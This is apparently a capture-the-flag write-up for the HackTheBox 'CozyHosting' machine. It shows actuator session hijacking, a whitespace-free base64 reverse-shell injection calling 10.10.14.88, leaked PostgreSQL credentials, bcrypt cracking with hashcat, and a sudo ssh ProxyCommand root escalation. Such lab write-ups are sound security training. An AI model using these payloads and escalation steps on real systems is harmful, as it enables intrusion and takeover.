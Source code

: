 # [CozyHosting](https://app.hackthebox.com/machines/CozyHosting) - 04/09/2023 - HackTheBox write-up

IP:   10.10.11.230
Name: cozyhosting.htb

## User flag

### Discovery

HTTP & SSH server.

### Searching for vulnerability

It's a web app based on SpringBoot framework. With a quick enumeration we can find that we have actually access to the actuators.

In one of them (`/actuator/sessions`) we can find sessions that are actually connected to the app, identified by a name and their session cookies. So, we can use one of these cookies to connect to the app as `kanderson`.

### Exploitation

Then there is form to connect through SSH to another server monitored by the user. We can suppose that the app run a SSH command directly in the backend and it might be some commands injection. Quickly we can find that the hostname isn't injectable but we can see the error output so it confirms the command injection. In the  user field we cannot insert space (error "Username can't contains whitespaces!"), but we can send a payload without spaces like that to obtain a reverse shell :
```bash
echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljg4LzU2Mzg0IDA%2bJjEK|base64${IFS}-d|bash
# Once decode the base64 payload is a classic reverse shell
/bin/bash -i >& /dev/tcp/10.10.14.88/56384 0>&1
```

It works, we have access to the machine as user `app`. It's a service account for SpringBoot app, we need to do a lateral movement to `josh` to obtain the user flag.

### Searching for vulnerability

In the `/app` directory we have a `.jar`, the compiled version of the web app. There is nothing else, and `app` user have really low privileges, so we can supposed that we will find clues in this archive.

After decompiling it, we can find the file `application.properties`:
```
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

And here we have creds to connect to the PostgreSQL database.

### Exploitation

I found the `psql` command tricky, but we can connect to the database with this command:
```bash
psql "postgresql://postgres:Vg&nvzAQ7XxR@127.0.0.1/cozyhosting"
```

And then, we can list tables, there are `hosts` and `users` tables. In the second we should find some passwords to reuse somewhere:
```
SELECT * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

They are hashed with Bcrypt, it will be slow but we can attempt to crack it with `hashcat`:
```
$ hashcat -a 0 -m 3200 hash.txt /usr/share/john/rockyou.txt
[...]
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
[...]
```

Fortunately the password was found in the first thousands password cracked in `rockyou.txt` list, and then we can reuse it to connect through SSH as `josh` user and get the flag.

## Root flag

### Searching for elevating privileges

Root flag was very easy, we just need to run `sudo -l`:
```
josh@cozyhosting:~$ sudo -l
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

### Exploitation

So now, we just need to find a way to execute command directly with ssh as `root`. A great resource is : [https://gtfobins.github.io/](https://gtfobins.github.io/).

We can find the following command, and get the flag:
```bash
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/home/josh# id
uid=0(root) gid=0(root) groups=0(root)
root@cozyhosting:/home/josh# cat /root/root.txt 
[... flag ...]
```
